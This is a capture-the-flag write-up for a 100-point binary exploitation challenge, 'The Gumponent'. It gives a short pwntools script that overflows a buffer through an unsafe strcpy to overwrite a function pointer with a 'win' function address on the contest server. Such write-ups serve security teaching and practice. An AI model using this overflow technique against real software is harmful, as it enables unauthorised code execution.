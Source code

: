 # The Gumponent
PWN - 100 points.

```python
from pwn import *

#p = process("./test_gumponent")
p = remote("ctf.ritsec.club", 31746)

payload = b"A"*32

#win function addr
payload += p64(0x401230)

p.sendline(payload)

p.interactive()
```
Open the binary in IDA Free:

![image](https://github.com/RPISEC/Writeups/assets/29514104/eeb4cac3-c5a5-456d-b54d-60253defe317)

`dest` and `v5` will set next to each other in memory. The `strcopy` function allows us to write more bytes to `dest` than it can actually hold.

Therefore, we can overwrite `v5`, which is a function pointer. 

Looking through the functions, we find a "win" function.

![image](https://github.com/RPISEC/Writeups/assets/29514104/9035bd5a-d461-474a-b34a-afa8ba31d24f)

I rename the function so its easier to find and find its address through the "Functions" subview after placing a breakpoint at the top of main and running:

![image](https://github.com/RPISEC/Writeups/assets/29514104/3a47b34f-20bd-4885-9206-4e104f03e0e0)

We can use this function address directly because our binary has no protections:

![image](https://github.com/RPISEC/Writeups/assets/29514104/b136b587-b165-4214-9e05-9ba04d05c9fd)
